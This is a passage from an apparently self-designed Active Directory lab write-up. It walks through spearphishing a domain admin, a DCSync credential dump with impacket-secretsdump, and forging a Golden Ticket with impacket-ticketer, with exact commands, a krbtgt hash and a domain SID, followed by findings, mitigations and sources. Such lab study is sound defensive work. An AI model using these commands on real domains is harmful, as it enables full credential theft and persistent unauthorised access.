

However, BloodHound also showed there was **no direct path** from the compromised accounts (sahib.johar, svc_backup) to Yash. No ACL or group relationship so we pivot to him directly through AD permissions alone.

---

## Step 4 - Targeting Yash Patel (Social Engineering)

**MITRE ATT&CK:** T1566 - Phishing

Now that BloodHound confirmed `yash.patel` as the Domain Admin, the attack pivoted to targeting him directly. This is exactly how BloodHound is used in real engagements - to identify high-value targets for follow-on attacks rather than to find a clean graph path.

In this simulation, yash.patel's credentials were obtained via targeted social engineering - a spearphish against an identified privileged account. This models a realistic two-stage attack:

1. **Mass phishing** for initial access (got sahib.johar)
2. **Targeted phishing** against accounts identified through BloodHound enumeration (got yash.patel)

**Credentials obtained:** `yash.patel : Winter2024!`

---

## Step 5 - DCSync

**MITRE ATT&CK:** T1003.006 - OS Credential Dumping: DCSync

DCSync abuses the MS-DRSR protocol - the same protocol Domain Controllers use to replicate data between each other. An account with Domain Admin rights (or specifically the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights) can impersonate a DC and request a full copy of the NTDS.DIT password database. The DC has no way to distinguish this from legitimate replication.

**Command:**

```bash
impacket-secretsdump phix.local/yash.patel:'Winter2024!'@192.168.100.10
```

This dumped **every credential in the domain** - every user's NTLM hash, Kerberos keys, the local SAM database on the DC, the LSA secrets, and most critically the `krbtgt` hash.



The only thing that matters for what comes next is the `krbtgt` hash - hightlighted below:



```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:25bbc85e03b3c948a6430b1e4a8661f5:::
```

The RID `502` is always krbtgt in every Active Directory domain - it's a hardcoded well-known identifier.

---

## Step 6 - Golden Ticket

**MITRE ATT&CK:** T1558.001 - Steal or Forge Kerberos Tickets: Golden Ticket

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) signed with the real `krbtgt` hash. Normally the DC issues TGTs after a user successfully authenticates. With the krbtgt hash, an attacker can forge their own TGT entirely offline - for any user, with any group memberships, valid for any duration - without ever contacting the DC again. Every machine in the domain will trust the ticket because it's signed with the legitimate key.

**Getting the domain SID:**

```bash
impacket-lookupsid phix.local/yash.patel:'Winter2024!'@192.168.100.10
```

Domain SID returned: `S-1-5-21-130486142-3327396955-1248882764`



**Forging the Golden Ticket:**

```bash
impacket-ticketer \
  -nthash 25bbc85e03b3c948a6430b1e4a8661f5 \
  -domain-sid S-1-5-21-130486142-3327396955-1248882764 \
  -domain phix.local Administrator
```



**Verifying the forged ticket:**

```bash
export KRB5CCNAME=Administrator.ccache
klist
```



The ticket is valid from June 14, 2026 to **June 11, 2036** - a 10-year forged ticket signed with the real `krbtgt` key. With this, an attacker has full unrestricted access to the entire `phix.local` domain. Even if every user's password were reset, this ticket would remain valid until the `krbtgt` account password is rotated **twice** (Microsoft's recommendation).

---

## Findings Summary

| # | Finding | Severity |
|---|---|---|
| F-01 | Kerberos pre-authentication disabled on user account | High |
| F-02 | SPNs on service accounts with weak passwords | Critical |
| F-03 | Over-permissioned user in Domain Admins | High |
| F-04 | Full domain credential dump achievable via DCSync | Critical |
| F-05 | Golden Ticket forged - persistent domain access | Critical |

---

### MITRE ATT&CK Mapping

| Technique ID | Name | Phase |
|---|---|---|
| T1566 | Phishing | Initial Access |
| T1558.003 | Kerberoasting | Credential Access |
| T1558.004 | AS-REP Roasting | Credential Access |
| T1087.002 | Domain Account Discovery | Discovery |
| T1003.006 | DCSync | Credential Access |
| T1558.001 | Golden Ticket | Persistence / Privilege Escalation |

---

### Mitigations

| Finding | Mitigation |
|---|---|
| AS-REP Roasting | Enable Kerberos pre-authentication on all accounts. There is no legitimate reason to disable it. |
| Kerberoasting | Use strong, randomly generated passwords (25+ characters) for all service accounts. Consider Group Managed Service Accounts (gMSA) which rotate passwords automatically. |
| Over-permissioned DA | Apply least privilege. IT users should not be Domain Admins. Use a tiered administration model. |
| DCSync | Audit accounts with replication rights regularly. Only Domain Controllers should hold DS-Replication permissions. Monitor Event ID 4662 for replication access. |
| Golden Ticket | Rotate krbtgt password twice (with delay between rotations) after any suspected compromise. Monitor for TGTs with unusual lifetimes or forged PAC data. |

---

### Tools Used

| Tool | Purpose |
|---|---|
| `impacket-GetNPUsers` | AS-REP Roasting |
| `impacket-GetUserSPNs` | Kerberoasting |
| `hashcat` | Offline hash cracking |
| `bloodhound-python` | AD enumeration and collection |
| `BloodHound CE v9.2.2` | Attack path visualization |
| `neo4j` | Graph database backend for BloodHound |
| `crackmapexec` | SMB authentication and DC fingerprinting |
| `impacket-secretsdump` | DCSync / credential dumping |
| `impacket-lookupsid` | Domain SID enumeration |
| `impacket-ticketer` | Golden Ticket forging |
| `nmcli` | Persistent static IP configuration on Kali |

---

## Sources

### Lab 

> This lab was designed entirely by me!

### Tool Documentation
| Source | URL |
|---|---|
| Impacket - Fortra/Core Security (GitHub) | https://github.com/fortra/impacket |
| BloodHound CE - SpecterOps (GitHub) | https://github.com/SpecterOps/BloodHound |
| BloodHound CE Official Documentation | https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart |
| Hashcat Documentation | https://hashcat.net/wiki/ |
| CrackMapExec (GitHub) | https://github.com/byt3bl33d3r/CrackMapExec |
| bloodhound-python (GitHub) | https://github.com/fox-it/bloodhound.py |
| Neo4j Documentation | https://neo4j.com/docs/ |

### Research & Concepts
| Source | URL |
|---|---|
| Kerberoasting - Tim Medin, DerbyCon 2014 (original research) | https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf |
| AS-REP Roasting - Will Schroeder (@harmj0y), SpecterOps | https://blog.harmj0y.net/activedirectory/roasting-as-reps/ |
| Kerberoasting Without Mimikatz - harmj0y | https://blog.harmj0y.net/powershell/kerberoasting-without-mimikatz/ |
| MITRE ATT&CK T1558.003 - Kerberoasting | https://attack.mitre.org/techniques/T1558/003/ |
| MITRE ATT&CK T1558.004 - AS-REP Roasting | https://attack.mitre.org/techniques/T1558/004/ |
| Active Directory Security - Sean Metcalf | https://adsecurity.org |

### Learning Resources
| Source | URL |
|---|---|
| TCM Security - Practical Ethical Hacking (AD sections) | https://www.youtube.com/@TCMSecurityAcademy |
| Josh Madakor - AD Lab Series | https://www.youtube.com/@JoshMadakor |
